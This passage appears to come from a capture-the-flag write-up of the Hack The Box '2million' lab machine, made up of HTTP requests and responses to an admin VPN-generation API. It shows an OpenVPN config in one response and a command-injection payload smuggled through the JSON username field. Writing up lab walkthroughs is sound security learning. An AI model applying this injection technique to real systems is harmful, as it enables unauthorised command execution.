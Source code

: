   ```
  }
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:50:45 GMT
  Content-Type: text/html; charset=UTF-8
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 10824
  
  client
  dev tun
  proto udp
  remote edge-eu-free-1.2million.htb 1337
  resolv-retry infinite
  nobind
  persist-key
  persist-tun
  remote-cert-tls server
  comp-lzo
  verb 3
  data-ciphers-fallback AES-128-CBC
  data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
  tls-cipher "DEFAULT:@SECLEVEL=0"
  auth SHA256
  key-direction 1
  [SNIP!]
  ```
  
- Here, the machine is probably using bash in order to generate VPN's, so I tried some shell commands and it worked!

  ```
  Request:

  POST /api/v1/admin/vpn/generate HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 39
  
  {
  	"username":"bimbo; ls #"
  }
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:53:15 GMT
  Content-Type: text/html; charset=UTF-8
  Connection: keep-alive
  ```
